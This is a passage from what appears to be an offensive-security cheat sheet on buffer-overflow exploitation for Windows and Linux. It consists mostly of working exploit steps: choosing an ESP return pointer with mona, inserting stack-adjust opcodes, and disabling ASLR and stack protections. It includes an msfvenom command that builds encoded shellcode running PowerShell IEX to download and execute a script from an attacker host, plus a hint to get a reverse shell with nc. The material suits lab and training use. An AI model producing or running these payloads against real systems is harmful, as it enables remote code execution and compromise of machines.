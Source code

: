 ```sh
# Then mona will say "Found a total of X pointers", choose one pointer w/o badchars

from struct import pack # and use this instead of "B"*4 (EIP)
pack("<L", 0x$ESP_POINTER) # write the esp address in little-endian format

# Finally, we need NOPs to say no operation and give time to the shellcode in order to be reorganised and properly interpreted. 

# NOTE: if we have a connection with nc but no shell --> check and change payload

# But we cannot exploit the bof again --> add to msfvenom, before lhost, the parameter
EXITFUNC=thread // it kills a thread and not the process when it connects

# IMPROVEMENTS:
# *****Instead of NOPs, it's better to move the stack so the program has that "space" 
to decode and interpret our shellcode
`locate nasm_shell.rb`
nasm > sub esp,0x10 // note the opcode 
Then in our exploit.py put the opcode directly instead of the nops
buffer = ... + "\x83\xEC\x10" + "" + shellcode //// in case the opcode is 83EC10
*****Customize your payload to make it smaller with CMD and --smallest
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.Webclient).downloadString('http://10.0.2.5/Inv-Pow.ps1')" EXITFUNC=thread lhost=10.0.2.5 lport=4
43 -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f c --smallest
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Escape from Wine instance

Search for **/bin** Linux executables to use **nc** and get a revshell or try some Windows commands.

## Linux

{% tabs %}
{% tab title="Intro" %}
```python
# CHECK IF ASLR IS ENABLED ON THE VICTIM MACHINE
cat /proc/sys/kernel/randomize_va_space #0=disabled, good for testing bof

# TEST IF THE PROGRAM CRASHES AND WHEN
./file $(python -c 'print "A" * 100')
./file $(python -c 'print "A" * 200')
.......

# USE GDB-PEDA
gdb -q bof_demo
    r (ALL THE CHARS)
    Then note EIP

`locate pattern_offset` -q $EIP // put rbp value here

# COMPILE BOF WITH NO PROTECTIONS
echo 0 > /proc/sys/kernel/randomize_va_space # revert it later
gcc bof_demo.c -o bof_demo -z execstack -fno-stack-protector
```
{% endtab %}

